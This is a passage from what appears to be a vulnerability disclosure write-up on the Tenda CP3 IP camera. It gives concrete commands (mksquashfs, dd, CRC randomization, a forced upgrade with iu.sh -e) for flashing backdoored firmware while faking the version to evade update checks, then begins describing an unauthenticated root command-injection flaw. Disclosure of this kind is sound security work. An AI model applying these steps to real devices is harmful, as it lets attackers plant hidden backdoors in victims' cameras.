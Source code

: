An attacker could potentially perform a malicious upgrade on a camera by modifying
its firmware or filesystem and introducing a backdoor. This can be accomplished
by "forcing" the upgrade, which allows the camera to be downgraded to a previous
firmware version. To avoid detection, the attacker could edit the `sysinfo/fw_ver`
file inside the Squashfs filesystem to indicate that the installed version is the
latest available, preventing the phone app from proposing any updates even though
the installed version is not the latest available.

More in detail:

1. Extract the app partition and its Squashfs filesystem from the flash dump
2. Inside `sysinfo/fw_ver` edit `fw_ver` to a future date, i.e. `9912312359`
3. Compress the Squashfs filesystem: `mksquashfs squashfs-root my_app.dd`
4. Copy the original dump to `my_dump.bin` and embed the edited app partition
   within it: `dd if=my_app.dd of=my_dump.bin seek=7808 count=8576 conv=notrunc`
5. Randomize the app's 4 bytes CRC stored in the dump at offset `0x234`:
   `dd if=/dev/urandom of=my_dump.bin bs=1 count=4 seek=564 conv=notrunc`
6. As previously explained, run the Python server, copy the newly created dump
   to the camera as `/home/Flash.img` and launch a forced upgrade with `iu.sh -e`

The update will be successfully recognized by the device and the app as the
latest version.

![cp3](/img/posts/tenda_cp3_cve/tdsee_1.png)

This attack is **particularly dangerous**, an attacker could buy cameras, modify
them and then return them to the vendor, or gift a modified device to a victim
and so on...

### Unauthenticated Remote Code Execution

> Improper Neutralization of Special Elements used in a Command
> in Shenzen Tenda Technology IP Camera CP3 V11.10.00.2211041355 allows
> remote attackers to execute arbitrary commands on the device as root

#### Details

Running `netstat` on the device reveals the following:

```terminal
# netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      1116/inetd
tcp        0      0 0.0.0.0:1300            0.0.0.0:*               LISTEN      8518/noodles
tcp        0      0 0.0.0.0:843             0.0.0.0:*               LISTEN      8518/noodles
tcp        0      0 0.0.0.0:6688            0.0.0.0:*               LISTEN      997/apollo
tcp        0      0 0.0.0.0:8554            0.0.0.0:*               LISTEN      997/apollo
tcp        0      0 0.0.0.0:8699            0.0.0.0:*               LISTEN      997/apollo
tcp        0      0 0.0.0.0:9876            0.0.0.0:*               LISTEN      997/apollo
udp        0      0 0.0.0.0:19966           0.0.0.0:*                           997/apollo
udp        0      0 0.0.0.0:3702            0.0.0.0:*                           997/apollo
udp        0      0 0.0.0.0:5012            0.0.0.0:*                           8518/noodles
udp        0      0 0.0.0.0:5683            0.0.0.0:*                           997/apollo
```
